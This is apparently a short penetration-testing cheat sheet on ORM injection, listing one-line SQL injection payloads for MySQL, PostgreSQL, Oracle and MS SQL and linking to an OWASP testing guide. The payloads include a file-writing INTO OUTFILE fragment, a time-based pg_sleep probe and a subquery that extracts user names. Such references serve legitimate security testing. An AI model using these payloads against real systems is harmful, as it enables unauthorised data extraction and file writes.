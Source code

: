 # ORM Injection
---
## Vulnerable ORM Layer
MySQL
```txt
abc\' INTO OUTFILE --
```
PostgreSQL
```txt
$$='$$=chr(61)||chr(0x27) and 1=pg_sleep(2)||version()'
```
Oracle
```txt
NVL(TO_CHAR(DBMS_XMLGEN.getxml('select 1 where 1337>1')),'1')!='1'
```
MS SQL
```txt
1<LEN(%C2%A0(select%C2%A0top%C2%A01%C2%A0name%C2%A0from%C2%A0users)
```

> More info:  https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.7-Testing_for_ORM_Injection